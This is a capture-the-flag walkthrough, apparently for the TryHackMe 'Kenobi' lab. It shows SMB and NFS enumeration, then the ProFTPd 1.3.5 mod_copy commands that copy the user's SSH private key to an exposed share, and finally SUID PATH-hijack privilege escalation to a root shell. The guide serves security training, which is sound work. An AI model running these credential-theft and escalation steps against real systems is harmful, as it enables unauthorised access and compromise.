 # Kenobi

This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.


## Task1 
```bash
nmap -sC -sV --script vuln -oN kenobi.txt  10.10.251.121
```

## Task2 
Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.

Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.

Nmap has the ability to run to automate a wide variety of networking tasks. There is a script to enumerate shares!
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.251.121
```
SMB has two ports, 445 and 139

```bash
PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 02:75:CB:41:DD:E5 (Unknown)

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.251.121\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.251.121\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.251.121\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 1.26 seconds
```
Alternatively, we can use “smbclient” to list shares of the target machine.
```bash
smbclient -L \\\\10.10.119.18\\
```
On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.
```bash
smbclient //10.10.251.121/anonymous
```

We can recursively download the SMB share too. Submit the username and password as nothing.
```bash
smbget -R smb://10.10.251.121/anonymous
```

```bash
cat log.txt | more
# I found out the port for ftp is 21
```

Our earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.251.121

Starting Nmap 7.60 ( https://nmap.org ) at 2024-04-12 21:10 BST
Nmap scan report for ip-10-10-251-121.eu-west-1.compute.internal (10.10.251.121)
Host is up (0.00014s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836904.0  6876724.0  22%   16.0T        32000
MAC Address: 02:75:CB:41:DD:E5 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds
```

# Task3
To find the version of the FTP we can run netcat

```bash
netcat <IP> 21
```

We can seachsploit which is based on [exploit-db](exploit-db.com) find vunrebilities respect to that version.

```bash
searchsploit ProFTPd 1.3.5
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)              | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                    | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                              | linux/remote/36742.txt
----------------------------------------------------------------------- ---------------------------------
```
To get the exploit we can run
```bash
searchsploit -m <exploit_id>
```
The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

```bash
netcat  10.10.251.121 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.251.121]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
```bash
mkdir /mnt/kenobiNFS
mount 10.10.251.121:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@<IP>
```

# Task4 

<p align="center">
   <img src="./Files/permissions.png" alt="Directory permissions"/>
</p>

| Permission | On Files | On Directories |
|------------|----------|----------------|
| SUID Bit   | User executes the file with permissions of the file owner | - |
| SGID Bit   | User executes the file with the permission of the group owner. | User executes the file with the permission of the group owner. File created in directory gets the same group owner. |
| Sticky Bit | No meaning | Users are prevented from deleting files from other users. |

To find this we can use this command:
```bash
find / -perm -u=s -type f 2>/dev/null
```

The /usr/bin/menu should not S bit is on which is out of ordenery.

<p align="center">
   <img src="./Files/kenobi_privillage.png" alt="Directory permissions"/>
</p>
We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!
